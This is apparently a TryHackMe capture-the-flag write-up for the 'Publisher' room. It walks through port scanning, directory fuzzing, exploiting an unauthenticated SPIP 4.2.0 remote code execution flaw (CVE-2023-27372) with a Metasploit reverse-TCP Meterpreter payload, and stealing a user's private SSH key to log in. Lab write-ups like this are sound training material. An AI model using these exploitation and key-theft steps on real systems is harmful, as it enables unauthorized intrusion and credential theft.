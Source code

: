 # TRYHACKME : Publisher
A CMS hacking that is SPIP
# NMAP SCAN
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 df:72:2e:fa:7a:a4:12:52:a0:dc:c9:48:7c:63:48:d7 (RSA)
|   256 99:77:75:a6:cb:28:3a:43:fa:39:7e:9b:74:a1:90:92 (ECDSA)
|_  256 ce:93:ac:81:9d:a9:69:05:52:3a:1b:1d:aa:f2:85:36 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# PORT 80

First let's run some basic dir fuzzing:
## GOBUSTER
```
/images               (Status: 301) [Size: 315] [--> http://10.201.68.178/images/]
/spip                 (Status: 301) [Size: 313] [--> http://10.201.68.178/spip/]      
```

## Searchsploit
After the enumeration of the cms version, let's look for available exploit of the following version:\
```
$ searchsploit 'spip 4.2.0'
-------------------------------------- ---------------------------------
 Exploit Title                        |  Path
-------------------------------------- ---------------------------------
SPIP v4.2.0 - Remote Code Execution ( | php/webapps/51536.py
-------------------------------------- ---------------------------------
Shellcodes: No Results

```
Let's look further about the vulnerability.
```
$ searchsploit -x 51536    
  Exploit: SPIP v4.2.0 - Remote Code Execution (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/51536
     Path: /usr/share/exploitdb/exploits/php/webapps/51536.py
    Codes: CVE-2023-27372
 Verified: True
File Type: Python script, ASCII text executable
```
Look up [CVE-2023-27372](https://packetstorm.news/tos/aHR0cHM6Ly9wYWNrZXRzdG9ybS5uZXdzL2ZpbGVzLzE3MTkyMS9TUElQLVJlbW90ZS1Db21tYW5kLUV4ZWN1dGlvbi5odG1sIDE3NTQ3Mjk1NTggMDFkMjMyZGJjOWNjYzk4ZGE5NjU3YjUwYjdlYzcwMmRlNmE1MGFkZGI1NDM0Y2IzZWVhMzBjYTY5NzI1NWQ5ZA==). This one can be used for Metasploit.

## Metasploit
Let's proceed to use metasploit for exploitation
```
$ msfpsloit -q
...
> search spip
...
> use 12           // use the one with "spip_rce_form"

```

Set the options into the following:
```
msf6 exploit(multi/http/spip_rce_form) > options

Module options (exploit/multi/http/spip_rce_form):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:po
                                         rt[,type:host:port][...]
   RHOSTS     [TARGET-IP]    yes       The target host(s), see https://docs
                                         .metasploit.com/docs/using-metasploi
                                         t/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing conne
                                         ctions
   TARGETURI  /spip            yes       Path to Spip install
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  [MACHINE-IP]      yes       The listen address (an interface may be
                                     specified)
   LPORT  4444             yes       The listen port

```
 Then run the exploit.

### Meterpreter
Type the following commands:
```
> shell
pwd
cd /home/think
cat user.txt
[RETRIEVE FLAG]
```

# PRIVILEGE ESCALATION
From the same "/home/think" directory, proceed to the ".ssh" directory.

We can access and download the private and public key for the ssh.

```
> download id_rsa
```

Go back to your main terminal, and change the id_rsa file permission:
```
chmod 600 id_rsa
```

## SSH
Escalate privilege through the leaked private ssh key of user Think:
```
$ ssh think@10.201.103.88 -i id_rsa
```
We still need to further escalate our privileges by getting into root.
Let's find other flaws to the system.

## ROOT Access
According to the room "exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation." This will serve as a clue.
